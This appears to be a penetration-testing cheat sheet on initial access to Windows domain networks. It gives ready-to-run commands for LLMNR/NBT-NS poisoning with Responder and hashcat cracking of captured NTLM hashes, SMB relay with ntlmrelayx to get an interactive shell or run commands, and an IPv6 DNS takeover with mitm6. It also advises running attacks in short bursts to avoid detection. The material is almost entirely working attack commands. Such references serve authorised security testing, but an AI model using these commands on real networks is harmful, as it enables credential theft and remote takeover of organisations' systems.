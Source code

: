 ## Initial Access Vectors

### Network Attacks

#### LLMNR/NBT-NS Poisoning
```bash
# Step 1: Start Responder
sudo responder -I tun0 -dwPv

# Step 2: Wait for hashes (common trigger events):
# - File share access
# - Printer connection
# - Web requests

# Step 3: Hash Cracking
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt --force
```

IMPORTANT NOTES:
- Run in short bursts to avoid detection
- Monitor network impact
- Document captured hashes

#### SMB Relay
```bash
# Disable SMB and HTTP in Responder
vim /etc/responder/Responder.conf
# Set SMB = Off and HTTP = Off

# Find Targets without SMB Signing
nmap --script=smb2-security-mode.nse -p445 <target-range> -Pn

# Setup Relay
sudo ntlmrelayx.py -tf targets.txt -smb2support

# Interactive Shell
sudo ntlmrelayx.py -tf targets.txt -smb2support -i

# Execute Command
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
```

#### IPv6 DNS Takeover Attack
Prerequisites:
- IPv6 enabled on network (but not properly configured)
- Network access
- Domain environment

```bash
# Setup ntlmrelayx for IPv6 attack
sudo ntlmrelayx.py -6 -t ldaps://DC-IP -wh fakewpad.domain.local -l lootme

# Run mitm6 (in separate terminal)
sudo mitm6 -d domain.local
```
